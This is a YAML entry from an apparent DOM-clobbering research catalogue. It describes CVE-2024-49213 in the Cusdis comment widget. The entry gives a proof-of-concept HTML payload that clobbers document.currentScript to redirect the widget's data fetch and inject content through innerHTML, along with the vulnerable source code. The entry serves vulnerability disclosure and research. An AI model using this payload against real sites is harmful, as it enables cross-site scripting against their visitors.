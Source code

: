 ```yaml
---
description: Cusdis is an open-source, lightweight (~5kb gzip), privacy-friendly alternative to Disqus.
github: djyde/cusdis
gadgets:
  Latest:
    cve: CVE-2024-49213
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - doc-tags
      - name-attr
      - data-attr
      - before-lib-load
    pocs:
      - description: The [Cusdis](https://cusdis.com/) library uses the `data-host` attribute on the `document.currentScript` node to fetch comments information. Then, it retrieves `s.data.data[e.dataset.cusdisCountPageId]` and `innerHTML` it in the DOM.
        code: |
          <!-- user input -->
          <img name="currentScript" data-host="[current-location]/assets/xss/cusdis.json?">

          <span data-cusdis-count-page-id="XXX-YYY-ZZZ"></span>
          <div id="cusdis_thread"
            data-host="https://cusdis.com"
            data-app-id="c157400c-80eb-4dca-acc7-3cd342adfb22"
            data-page-id="XXX-YYY-ZZZ"
            data-page-url="XXX"
            data-page-title="XXX"></div>
          </div>
          <script async defer src="https://cusdis.com/js/cusdis.es.js"></script>
          <script defer data-host="https://cusdis.com" data-app-id="c157400c-80eb-4dca-acc7-3cd342adfb22" src="https://cusdis.com/js/cusdis-count.umd.js"></script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/djyde/cusdis/blob/7bcf25611de75f52b337a9bb2e6b3f931822f56c/widget/count.js#L6">https://github.com/djyde/cusdis/blob/7bcf25611de75f52b337a9bb2e6b3f931822f56c/widget/count.js#L6</a>

      ```javascript
      export async function initial() {

        // local testing fallback
        const currentScript = document.currentScript || document.querySelector('#for-testing')

        const { appId, host } = currentScript.dataset
        const resolvedHost = host || 'https://cusdis.com'

        const nodes = document.querySelectorAll('*[data-cusdis-count-page-id]')

        const pageIds = Array.from(nodes).map(el => {
          return el.dataset.cusdisCountPageId
        })

        const results = await axios.get(`${resolvedHost}/api/open/project/${appId}/comments/count`, {
          params: {
            pageIds
          }
        })

        Array.from(nodes).forEach(el => {
          el.innerHTML = results.data.data[el.dataset.cusdisCountPageId]
        })
      }
      ```
    links:
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/cusdis.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

